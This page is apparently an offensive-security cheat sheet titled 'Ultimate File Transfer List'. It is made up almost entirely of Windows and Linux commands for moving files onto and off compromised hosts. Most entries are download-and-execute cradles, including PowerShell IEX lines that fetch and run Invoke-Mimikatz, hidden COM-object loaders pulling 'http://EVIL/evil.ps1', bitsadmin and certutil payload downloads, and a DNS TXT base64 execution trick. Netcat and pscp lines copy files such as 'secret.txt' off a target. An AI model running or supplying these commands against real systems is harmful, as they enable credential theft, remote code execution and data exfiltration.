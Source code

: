 # Ultimate File Transfer List

## powershell.exe

### powershell proxy authentication

$Client = New-Object -TypeName System.Net.WebClient
$Client.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')


### powershell 4.0 / 5.0 Invoke-WebRequest (works in constrained language mode)

Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"

from @harmj0y:

### powershell download cradles


* #### powershell 3.0+ download and execute (bypass IE firstrun check)

     IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -UseBasicParsing)


* #### powershell (any version)

     powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"


     (New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1", "C:\Users\Public\Invoke-Mimikatz.ps1")


* #### hidden IE com object

     $ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r


* #### Msxml2.XMLHTTP COM object

     $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText


* #### WinHttp COM object

     [System.Net.WebRequest]::DefaultWebProxy
     [System.Net.CredentialCache]::DefaultNetworkCredentials
     $h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText


### bitstransfer

Import-Module bitstransfer;Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r


// DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
//   code to execute needs to be a base64 encoded string stored in a TXT record

IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))


from @subtee:

```
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex
```

Links:

https://gist.github.com/HarmJ0y/bb48307ffa663256e239


## bitsadmin.exe

cmd.exe /c "bitsadmin.exe /transfer downld_job /download /priority high http://www.trustedsite.com C:\Temp\mimikatz.exe & start C:\Temp\mimikatz.exe"

Links: 

https://www.greyhathacker.net/?tag=download-and-execute


## scp / pscp.exe

pscp.exe C:\Users\Public\info.txt user@target:/tmp/info.txt

pscp.exe user@target:/home/user/secret.txt C:\Users\Public\secret.txt


## certutil.exe

certutil.exe -urlcache -split -f https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1

Links:

https://twitter.com/subtee/status/888122309852016641?lang=en


## certutil.exe base64

certutil.exe -encode mimikatz.exe mimikatz.txt

certutil.exe -decode mimikatz.txt mimikatz.exe

cat binary.exe | base64 -w 0

echo {base64_data} | base64 -d > binary.exe


## WebDAV downloaders


### makecab.exe

C:\Windows\System32\makecab.exe \\10.10.10.10\share\nmap.zip C:\Users\Public\nmap.cab


### esentutl.exe

C:\Windows\System32\esentutl.exe /y "\\10.10.10.10\share\mimikatz_trunk.zip" /d"C:\Users\Public\mimikatz_trunk.zip" /o


### extrac32.exe

C:\Windows\System32\extrac32.exe /Y /C \\10.10.10.10\share\secret.txt C:\Users\Public\secret.txt


### print.exe

C:\Windows\System32\print.exe /D c:\TEMP\ADExplorer.exe \\live.sysinternals.com\tools\ADExplorer.exe

Links:

https://twitter.com/Oddvarmoe/status/984749424395112448

for fuller list of WebDAV downloaders check @api0cradle LOLBINS/LOLBAS project:
https://github.com/api0cradle/LOLBAS/blob/master/LOLBins.md


## netcat

nc -nlvp 8000 > mimi_incoming.exe

nc -nv 10.10.10.10 8000 </tmp/mimikatz.exe


## web browser / server

python -m SimpleHTTPServer 80

python3 -m http.server

ruby -run -ehttpd . -p80

php -S 0.0.0.0:80

socat TCP-LISTEN:80,reuseaddr,fork


## wget

wget http://10.10.10.10:80/info.txt -O /tmp/info.txt


## curl

curl -o /tmp/info.txt http://10.10.10.10:80/info.txt


## rdesktop

rdesktop 10.10.10.10 -r disk:linux='/home/user/rdesktop/files'




